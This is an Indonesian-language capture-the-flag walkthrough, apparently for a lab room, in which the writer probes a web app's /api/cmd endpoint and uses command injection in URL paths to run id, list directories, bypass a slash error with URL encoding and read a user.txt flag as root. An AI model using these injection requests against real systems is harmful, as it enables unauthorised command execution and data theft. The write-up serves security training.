 pergi ke `http://IP-target:3000`. dari hint yang ada, McSkidy menemukan endpoint menarik yaitu `/api/cmd`

namun ketika kita pergi ke `http://IP-target:3000/api/cmd` yang didapat hanyalah text `"Cannot GET /api/cmd/"`. Karena tema dari room kali ini adalah command injection, kita dapat melakukan beberapa modifikasi pada url

- `../cmd?paramter=id`
- `../cmd?execute=id`
- `../cmd/parameter=id`
- `../cmd/execute=id`
- `../cmd/id`

Dari cara 1&2 tidak ada perubahan yang berarti, namun pada cara 3&4 terdapat "stdout" dan "stderr" yang mana mengindikasikan output dan error. Selaint itu, karena kita memasukkan `../cmd/id` maka akan menghasilkan output
```html
stdout	"uid=0(root) gid=0(root) groups=0(root)\n"
```
yang megnindikasikan bahwa command injection yang dilakukan telah berhasil. Selanjutnya kita dapat menggunakan command yang lain.

- `../cmd/ls`
```html
stdout	"bin\nboot\ndata\ndev\netc\nhome\nlib\nlib64\nlocal\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"
```

- `../cmd/ls home`
```html
stdout	"bestadmin\nec2-user\n"
```

- `../cmd/ls home/bestadmin`
```
Cannot GET /api/cmd/ls%20/home/bestadmin
```

ternyata terdapat error pada saat kita memasukkan slash lain, kita dapat coba mengatasinya dengan url encoding

- `../cmd/ls%20home%2Fbestadmin`
```html
stdout	"bin\nnew-room\nrun.sh\nuser.txt\n"
```

- `../cmd/cat%20home%2Fbestadmin%2Fuser.txt`
```html
stdout 5W7WkjxBWwhe3RNsWJ3Q\n
```